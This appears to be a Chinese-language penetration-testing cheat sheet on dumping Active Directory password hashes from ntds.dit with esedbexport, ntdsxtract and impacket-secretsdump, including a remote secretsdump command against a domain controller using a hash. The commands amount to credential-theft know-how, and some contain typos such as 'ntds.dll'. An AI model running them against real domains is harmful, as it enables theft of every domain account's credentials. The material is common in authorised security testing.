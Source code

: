 - 监控卷影拷贝服务的使用情况

```
system event id 7036
```

### 导出ntds.dit 中的散列值

#### 使用esedbexport 恢复ntds.dit

- 下载地址

```
https://github.com/libyal/libesedb/releases/download/20170121/libesedb-experimental-20170121.tar
```
 - 导出netd.dit
 
```
 apt-get install autoconf automake autopoint libtool pkg-config
 ./configure
 make
 sudo make install 
 sudo ldconfig
 
 /usr/local/bin
```

- 使用

```
esedbexport -m tables ntds.dit 提取表信息
```
- 导出散列值

```
下载ntdsxtract
https://github.com/csababarta/ntdsxtract.git

python setup.py build && python setup.py install 安装ntdsxtract

将netds.dit.export 和sustem文件夹放入ntdsxtract文件夹
dsuser.py ntds.dit.export/database.3 ntds.dit.export/link_table.5 output --syshive SYSTEM --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout | tee all_user.txt 将所有散列值导出到all_user.txt

dscomputers.py ntds.dit.export/database.3 computer_output --csvoutfile all_computers.csv 导出域内所有计算机的信息 
```

#### impacket工具包导出散列值(secretsdump)

```
https://github.com/csababarta/ntdsxtract.git

python setup.py install

impacket-secretsdump -system SYSTEM -ntds ntds.dll LOCAL 导出所有散列值

impacket-secretsdump
-hashs aad3bxxxxx
-just-dc pentest.com/administrator@192.168.100.205 从远程域控制器中读取散列值
```
- 在windows下解析ntds.dit 导出域账号和散列值
